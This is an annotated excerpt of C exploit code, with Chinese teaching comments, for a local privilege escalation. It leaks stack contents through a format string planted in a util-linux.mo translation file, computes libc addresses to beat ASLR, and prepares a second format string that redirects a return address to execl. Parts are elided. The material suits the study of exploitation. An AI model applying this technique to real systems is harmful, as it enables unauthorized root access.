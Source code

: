```c
          char *preambleStart=memmem(readBuffer, readDataLength,
              "AAAAAAAA", 8);   // 查找内存，设置 preambleStart
          [...]
// We found, what we are looking for. Start reading the stack.
          escalationPhase++;    // 阶段加 1 => case 1
          moveLength=preambleStart-readBuffer+8;
        case 1: // Read the stack.      // 阶段 1，利用格式化字符串读出栈数据，计算出 libc 等有用的地址以对付 ASLR
// Consume stack data until or local array is full.
          while(moveLength+16<=readDataLength) {    // 读取栈数据直到装满
            result=sscanf(readBuffer+moveLength, "%016lx",
                (int*)(stackData+stackDataBytes));
            [...]
            moveLength+=sizeof(long)*2;
            stackDataBytes+=sizeof(long);
// See if we reached end of stack dump already.
            if(stackDataBytes==sizeof(stackData))
              break;
          }
          if(stackDataBytes!=sizeof(stackData))     // 重复 case 1 直到此条件不成立，即所有数据已经读完
            break;

// All data read, use it to prepare the content for the next phase.
          fprintf(stderr, "Stack content received, calculating next phase\n");

          int *exploitOffsets=(int*)osReleaseExploitData[3];    // 从读到的栈数据中获得各种有用的地址

// This is the address, where source Pointer is pointing to.
          void *sourcePointerTarget=((void**)stackData)[exploitOffsets[ED_STACK_OFFSET_ARGV]];
// This is the stack address source for the target pointer.
          void *sourcePointerLocation=sourcePointerTarget-0xd0;

          void *targetPointerTarget=((void**)stackData)[exploitOffsets[ED_STACK_OFFSET_ARG0]];
// This is the stack address of the libc start function return
// pointer.
          void *libcStartFunctionReturnAddressSource=sourcePointerLocation-0x10;
          fprintf(stderr, "Found source address location %p pointing to target address %p with value %p, libc offset is %p\n",
              sourcePointerLocation, sourcePointerTarget,
              targetPointerTarget, libcStartFunctionReturnAddressSource);
// So the libcStartFunctionReturnAddressSource is the lowest address
// to manipulate, targetPointerTarget+...

          void *libcStartFunctionAddress=((void**)stackData)[exploitOffsets[ED_STACK_OFFSET_ARGV]-2];
          void *stackWriteData[]={
              libcStartFunctionAddress+exploitOffsets[ED_LIBC_GETDATE_DELTA],
              libcStartFunctionAddress+exploitOffsets[ED_LIBC_EXECL_DELTA]
          };
          fprintf(stderr, "Changing return address from %p to %p, %p\n",
              libcStartFunctionAddress, stackWriteData[0],
              stackWriteData[1]);
          escalationPhase++;    // 阶段加 1 => case 2

          char *escalationString=(char*)malloc(1024);       // 将下一阶段的格式化字符串写入到另一个 util-linux.mo 中
          createStackWriteFormatString(
              escalationString, 1024,
              exploitOffsets[ED_STACK_OFFSET_ARGV]+1, // Stack position of argv pointer argument for fprintf
              sourcePointerTarget, // Base value to write
              exploitOffsets[ED_STACK_OFFSET_ARG0]+1, // Stack position of argv[0] pointer ...
              libcStartFunctionReturnAddressSource,
              (unsigned short*)stackWriteData,
              sizeof(stackWriteData)/sizeof(unsigned short)
```